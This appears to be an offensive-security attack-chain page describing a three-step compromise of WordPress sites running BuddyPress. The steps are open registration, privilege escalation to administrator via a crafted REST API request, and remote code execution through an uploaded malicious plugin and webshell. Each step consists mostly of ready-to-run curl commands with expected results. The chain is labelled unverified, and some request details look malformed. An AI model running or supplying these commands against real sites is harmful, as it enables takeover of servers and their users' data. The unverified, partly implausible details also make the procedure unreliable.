

# Privilege Escalation via BuddyPress REST API to Administrator Access Leading to RCE

Multi-stage attack chain demonstrating a complete attack workflow exploiting a privilege escalation vulnerability in the BuddyPress REST API for WordPress.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- WordPress site with BuddyPress plugin installed
- User registrations enabled
- Exposed REST API (default on WordPress)
- Network access to the web application

### Initial Access Requirements

- No prior credentials needed; relies on open registrations
- Attacker positioned externally with HTTP access
- No special network position required

## Detailed Attack Procedures

### Step 1: Register as New User
procedure: [[procedures/Register-New-User-on-WordPress-Site]]

**Objective**: Gain initial low-privilege access to the site by registering a new user account, which is possible when registrations are enabled.

**Instructions**: Use a standard HTTP POST request to the WordPress registration endpoint to create a new user account with minimal privileges.

Execute [[commands/wp-register-user]] to register:

```bash
curl -X POST https://target.com/wp-json/wp/v2/users -d 'username=attacker&email=attacker@example.com&password=weakpass123' -H 'Content-Type: application/json'
```

**Expected Output**: JSON response confirming user creation with a user ID and basic profile.

**Success Indicators**:
- HTTP 201 Created status
- New user account accessible via login

### Step 2: Exploit BuddyPress REST API for Privilege Escalation
procedure: [[procedures/Exploit-BuddyPress-REST-API-for-Privilege-Escalation]]

**Objective**: Leverage insufficient access controls in the BuddyPress REST API to escalate the newly registered user's privileges to administrator level.

**Instructions**: Authenticate as the new user and send a crafted request to the BuddyPress API endpoint that lacks proper authorization checks, assigning admin capabilities.

First, obtain a nonce or auth token by logging in with [[commands/wp-login-user]]:

```bash
curl -c cookies.txt -d 'log=attacker&pwd=weakpass123' https://target.com/wp-login.php
```

Then exploit the API with [[commands/bp-priv-esc-exploit]]:

```bash
curl -b cookies.txt -X POST https://target.com/wp-json/buddypress/v1/members/me -d '{"roles":["administrator"]}' -H 'Content-Type: application/json'
```

**Expected Output**: Updated user profile JSON showing 'administrator' role.

**Success Indicators**:
- User roles include 'administrator'
- Access to admin dashboard granted upon login

### Step 3: Execute RCE as WordPress Administrator
procedure: [[procedures/Execute-RCE-as-WordPress-Administrator]]

**Objective**: As an administrator, upload a malicious plugin or theme to achieve remote code execution on the server.

**Instructions**: Log in as admin and use the WordPress plugin upload API to deploy a webshell or malicious code.

Use [[commands/wp-admin-login]] to authenticate as admin:

```bash
curl -c admin_cookies.txt -d 'log=attacker&pwd=weakpass123' https://target.com/wp-login.php
```

Then upload a malicious plugin ZIP with [[commands/wp-plugin-upload-rce]]:

```bash
curl -b admin_cookies.txt -X POST https://target.com/wp-admin/plugin-install.php?TabFunction=install -F "pluginzip=@malicious-plugin.zip" -H "Referer: https://target.com/wp-admin/"
```

Activate and trigger the plugin to execute code, e.g., via a POST to the plugin endpoint:

```bash
curl -b admin_cookies.txt -X POST https://target.com/wp-admin/admin-ajax.php?action=malicious_rce -d 'cmd=system("whoami");'
```

**Expected Output**: Command output in response, such as server username or file listing.

**Success Indicators**:
- Malicious plugin installed and activated
- Arbitrary command execution confirmed

## Attack Chain Summary

### Key Achievements

1. Initial foothold via user registration
2. Privilege escalation to full admin control
3. Remote code execution enabling server compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Command-Line Interface]] Command and Scripting Interpreter

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation
- [[Execution]] Execution

---
*Last updated: 2023-10-01T12:00:00Z*
